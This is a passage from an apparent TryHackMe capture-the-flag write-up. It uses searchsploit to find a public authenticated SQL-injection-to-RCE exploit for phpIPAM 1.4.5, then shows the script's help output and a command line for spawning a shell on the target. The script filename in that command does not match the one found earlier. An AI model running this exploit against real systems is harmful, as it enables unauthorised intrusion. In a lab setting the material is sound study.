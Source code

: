 I concern this version might be vulnerable. So I use `searchsploit` to view whether any **Paths** or **Modules** is related to this service and I found this:

```
┌──(kali㉿kali)-[~/TryHackMe/Ollie]
└─$ searchsploit "phpIPAM 1.4.5"
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
phpIPAM 1.4.5 - Remote Code Execution (RCE) (Authenticated)                       | php/webapps/50963.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Exploit

### phpIPAM 1.4.5 RCE

```
┌──(kali㉿kali)-[~/TryHackMe/Ollie]
└─$ python 50963.py --help

█▀█ █░█ █▀█ █ █▀█ ▄▀█ █▀▄▀█   ▄█ ░ █░█ ░ █▀   █▀ █▀█ █░░ █   ▀█▀ █▀█   █▀█ █▀▀ █▀▀
█▀▀ █▀█ █▀▀ █ █▀▀ █▀█ █░▀░█   ░█ ▄ ▀▀█ ▄ ▄█   ▄█ ▀▀█ █▄▄ █   ░█░ █▄█   █▀▄ █▄▄ ██▄

█▄▄ █▄█   █▄▄ █▀▀ █░█ █ █▄░█ █▀▄ █▄█ █▀ █▀▀ █▀▀
█▄█ ░█░   █▄█ ██▄ █▀█ █ █░▀█ █▄▀ ░█░ ▄█ ██▄ █▄▄

usage: ./exploit.py -url http://domain.tld/ipam_base_url -usr username -pwd password -cmd 'command_to_execute' --path /system/writable/path/to/save/shell

phpIPAM 1.4.5 - (Authenticated) SQL Injection to RCE

options:
  -h, --help       show this help message and exit
  -url URL         URL to vulnerable IPAM
  -usr USR         Username to log in as
  -pwd PWD         User's password
  -cmd CMD         Command to execute
  --path PATH      Path to writable system folder and accessible via webserver (default: /var/www/html)
  --shell [SHELL]  Spawn a shell (non-interactive)
```

The format to use this script to exploit the RCE vulnerability and pawn a shell is:

```
python3 50956.py -url [TARGET_URL] -usr [username] -pwd [password] --shell
```


[REDACTED]: Bourne-Again shell script, ASCII text executable